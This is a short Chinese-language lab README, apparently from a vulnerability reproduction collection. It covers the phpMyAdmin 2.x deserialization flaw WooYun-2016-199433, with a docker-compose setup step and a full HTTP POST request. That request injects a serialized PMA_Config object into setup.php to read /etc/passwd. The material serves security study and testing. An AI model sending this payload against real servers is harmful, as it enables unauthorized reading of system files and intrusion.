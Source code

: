# phpmyadmin 反序列化漏洞（WooYun-2016-199433）

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

## 环境搭建

执行如下命令启动phpmyadmin：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到phpmyadmin的首页。因为没有连接数据库，所以此时会报错，但我们这个漏洞的利用与数据库无关，所以忽略。

## 漏洞复现

发送如下数据包，即可读取`/etc/passwd`：

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)